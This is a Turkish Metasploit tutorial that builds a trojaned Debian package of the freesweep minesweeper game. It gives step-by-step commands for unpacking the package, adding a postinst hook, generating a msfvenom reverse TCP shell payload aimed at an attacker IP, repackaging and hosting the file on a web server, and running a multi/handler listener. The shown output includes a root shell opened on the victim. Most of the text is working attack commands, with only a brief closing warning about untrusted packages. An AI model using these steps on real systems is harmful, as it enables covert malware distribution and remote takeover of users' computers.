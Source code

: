 ```yaml
---
draft: false
title: MSF Binary Linux Trojan
linkTitle: MSF Binary Linux Trojan
translationKey: msf-binary-linux-trojan
weight: 210
date: 2017-05-20T13:12:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde trojan dosya oluşturabiliriz.
url: /tr/msf-binary-linux-trojan/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
---
```

İstemci taraflı saldırılara örnek olarak bir önceki yazımızda Windows platformu için `.exe` uzantılı bir çalıştırılabilir dosya oluşturmuştuk. Linux işletim sistemlerinin kullandığı tıkla ve çalıştır dosya tiplerinde de dosya oluşturabiliriz. Bu yazıda, `.deb` uzantılı bir dosya oluşturacağız.

Ubuntu işletim sistemini hedef alan bu dosyanın oluşturulması ilk olarak biraz karışık gelebilir ancak adımları teker teker inceleyerek devam ederseniz kavramak daha kolay olacaktır.

Öncelikle, içine payload yerleştireceğimiz bir programa ihtiyacımız var. Örnek olarak “Mine Sweeper” programını kullanalım.

## Paketi indirelim

Paketi `--download-only` parametresiyle indirdiğimizde, işletim sistemimize kurulmayacaktır. Daha sonra indirdiğimiz paketi üzerinde çalışmak üzere oluşturacağımız `/tmp/evil` klasörüne taşıyacağız.

```bash
root@kali:~# apt-get --download-only install freesweep
Reading package lists... Done
Building dependency tree
Reading state information... Done
...snip...
root@kali:~# mkdir /tmp/evil
root@kali:~# mv /var/cache/apt/archives/freesweep_0.90-1_i386.deb /tmp/evil
root@kali:~# cd /tmp/evil/
root@kali:/tmp/evil#
```

Artık `/tmp/evil` klasörünün içerisinde `freesweep_0.90-1_i386.deb` isimli bir Debian paketimiz var. İndirdiğiniz .deb uzantılı dosyanın ismi ve sürüm numarası farklı olabilir. İsmini `ls` komutuyla kontrol ederek örneklerdeki komutlara o şekilde uygulamalısınız.

## Paketi Açalım

Şimdi bu `.deb` uzantılı paketi, sıkıştırılmış bir dosyayı açmaya benzer şekilde açmamız gerekiyor. Bu paketi aşağıdaki komutla `/tmp/evil` klasörü içinde `work` klasörüne çıkartıyoruz. Ardından, bizim ilave edeceğimiz özelliklerin bulunacağı `DEBIAN` isimli bir klasörü `/tmp/evil/work` klasörü altına oluşturuyoruz.

```bash
root@kali:/tmp/evil# dpkg -x freesweep_0.90-1_i386.deb work
root@kali:/tmp/evil# mkdir work/DEBIAN
```

## control Dosyası oluşturalım

Debian klasörünün içerisinde `control` isimli bir dosya oluşturup içerisine aşağıdaki Metni yapıştırıp kaydediyoruz. Dosya içeriği aşağıdaki gibi `cat control` komutuyla kontrol ediyoruz.

**control** dosyası içeriği

```bash
Package: freesweep
Version: 0.90-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works **in **any visual text display - **in **Linux console, **in **an xterm, and **in
 **most text-based terminals currently **in **use.
```

## postinst dosyası oluşturalım

Kurulum sonrası çalışması için ayrıca bir bash script dosyasına daha ihtiyacımız var. Yine yukarıdaki gibi `DEBIAN` klasörü içine `postinst` isimli bir dosya oluşturuyoruz. İçerisine aşağıdaki kod satırlarını yapıştırıyoruz.

**postinst** dosya içeriği

```bash
#!/bin/sh

sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores &amp; /usr/games/freesweep &amp;
```

## Payload Oluşturalım

Şimdi içerisinde zararlı kodların olduğu dosyayı oluşturabiliriz. Bunun için aşağıdaki komutu kullanarak `linux/x86/shell/reverse_tcp` payload modülünü kullanacağız. Komut içerisinde `LHOST` ve `LPORT` olarak verdiğimiz değişkenleri kendiniz belirleyebilirsiniz.

```bash
root@kali:~# msfvenom -a x86 --platform linux -p linux/x86/shell/reverse_tcp LHOST=192.168.1.101 LPORT=443 -b "\x00" -f elf -o /tmp/evil/work/usr/games/freesweep_scores
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 98 (iteration=0)
x86/shikata_ga_nai chosen with final size 98
Payload size: 98 bytes
Saved as: /tmp/evil/work/usr/games/freesweep_scores
```

## Yeniden paketleme

Artık, `postinst` dosyamızı çalıştırılabilir hale getirip `.deb` paketini derleyebiliriz. Komut sonucunda oluşturulacak `work.deb` paketinin ismini `freesweep.deb` olarak değiştirip Apache Server klasörüne (`/var/www` veya `/var/www/html`) yükleyebiliriz. Artık dosyamız Web sunucuda indirilebilir durumdadır.

```bash
root@kali:/tmp/evil/work/DEBIAN# chmod 755 postinst
root@kali:/tmp/evil/work/DEBIAN# dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `freesweep' in `/tmp/evil/work.deb'.
root@kali:/tmp/evil# mv work.deb freesweep.deb
root@kali:/tmp/evil# cp freesweep.deb /var/www/
```

## Dinleyici Handler Oluşturma

Şimdi, bir tıklama veya çalıştırma ile gelecek bağlantı isteklerini dinlemek için dinleyici oluşturalım. Burada komuta vereceğimiz `LHOST` ve `LPORT` değerleri, payload oluştururken girilen değerler ile aynı olmalıdır.

```bash
root@kali:~# msfconsole -q -x "use exploit/multi/handler;set PAYLOAD linux/x86/shell/reverse_tcp; set LHOST 192.168.1.101; set LPORT 443; run; exit -y"
PAYLOAD => linux/x86/shell/reverse_tcp
LHOST => 192.168.1.101
LPORT => 443
> Started reverse handler on 192.168.1.101:443
> Starting the payload handler...
```

## Sonuç

Herhangi bir kullanıcı, bu hazırladığımız `freesweep.deb` paketini indirip çalıştırdığında dinleme yapan `exploit/multi/handler` modülümüz hedef bilgisayarda oturum açacaktır.

```bash
ubuntu@ubuntu:~$ wget <a href="http://192.168.1.101/freesweep.deb">http://192.168.1.101/freesweep.deb</a>
ubuntu@ubuntu:~$ sudo dpkg -i freesweep.deb

> Sending stage (36 bytes)
> Command shell session 1 opened (192.168.1.101:443 -> 192.168.1.175:1129)

ifconfig
eth1 Link encap:Ethernet HWaddr 00:0C:29:C2:E7:E6
inet addr:192.168.1.175 Bcast:192.168.1.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500 Metric:1
RX packets:49 errors:0 dropped:0 overruns:0 frame:0
TX packets:51 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:1000
RX bytes:43230 (42.2 KiB) TX bytes:4603 (4.4 KiB)
Interrupt:17 Base address:0x1400
...snip...

hostname
ubuntu
id
uid=0(root) gid=0(root) groups=0(root)
```

## Tavsiye

Görüldüğü gibi zararlı yazılımlar sadece Windows’a özel değildir. Linux kullanıcılarının da tıkla ve çalıştır programlara dikkatle yaklaşması gerekmektedir. Güvenilir olmayan kaynaklardan paket yüklememenizi tavsiye ediyoruz.
